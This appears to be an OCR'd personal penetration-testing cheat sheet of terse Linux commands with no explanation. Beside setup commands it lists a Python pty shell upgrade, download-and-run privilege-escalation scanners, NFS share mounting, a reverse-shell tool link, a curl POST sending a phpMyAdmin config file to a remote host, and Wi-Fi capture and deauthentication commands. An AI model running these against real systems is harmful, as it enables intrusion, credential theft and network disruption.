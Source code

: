 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool

apt-get install wicd-gtk


set ExitOnSession false


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


cd

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell

Post with curl
curl -X POST -F "file=./phpmy/config.inc.php" http://192.168.118.196/test.php


airodump-ng -c 3 --bssid MAC -w ~/dir/ wlan0mon

aireplay-ng -0 25 -a MAC wlan0mon
